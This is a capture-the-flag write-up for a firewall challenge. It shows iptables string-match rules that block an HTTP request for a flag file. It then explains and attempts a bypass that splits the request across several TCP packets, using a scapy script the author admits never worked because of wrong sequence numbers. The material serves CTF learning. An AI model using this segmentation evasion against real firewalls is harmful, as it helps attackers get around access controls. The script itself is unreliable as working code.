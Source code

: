 firewalker 1, similar to the first, is applied to a simple HTTP file server. The rules provided:

    Chain PORT_30485 (1 references)
    target     prot opt source               destination         
    REJECT     tcp  --  anywhere             anywhere             STRING match  "GET" ALGO name bm TO 65535 ICASE reject-with tcp-reset
    REJECT     tcp  --  anywhere             anywhere             STRING match  "/flag-4ae60838.txt" ALGO name bm TO 65535 ICASE reject-with tcp-reset
    REJECT     tcp  --  anywhere             anywhere             STRING match  "HTTP/1" ALGO name bm TO 65535 ICASE reject-with tcp-reset

Initially, we tried some fancy escaping tricks (replacing `-` with its urlencoded equivalent). This worked well enough, but couldn't be used for either the method or the HTTP version string.

Fortunately, these text matches only apply on individual packets. Splitting the request into at least three different packets would be sufficient to bypass all three rules.

I attempted to solve this in scapy:


```python
from scapy.all import *
import random
import sys

_incseq = 0
def incseq(num):
  global _incseq
  _incseq += num
  return _incseq

dest="172.31.2.97"
data = ["GE", "T /flag-","4ae60838.txt HTTP/", "1.1"]

def build(seq, ack, payload, sport):
    return IP(dst=dest)/TCP(seq=(_incseq if i == 0 else incseq(len(data[i-1]))), ack=ack, sport=sport, dport=30485, flags=0x18)/payload

syn = IP(dst=dest) / TCP(sport=random.randint(1025,65500), dport=30485, flags='S')
syn_ack = sr1(syn)
out_ack = send(IP(dst=dest) / TCP(dport=30485, sport=syn_ack[TCP].dport,seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq + 1, flags='A'))
_incseq = syn_ack[TCP].ack
xs = [build(i, syn_ack[TCP].seq + 1, data[i], syn_ack[TCP].dport) for i in xrange(len(data))]
send(xs)
```

It turns out I was rewriting the `fragment` function, but I couldn't get either working correctly. Incorrect sequence numbers prevented requests from being made, so despite tcpdumping just in case the server does respond, we never got a response from the server.
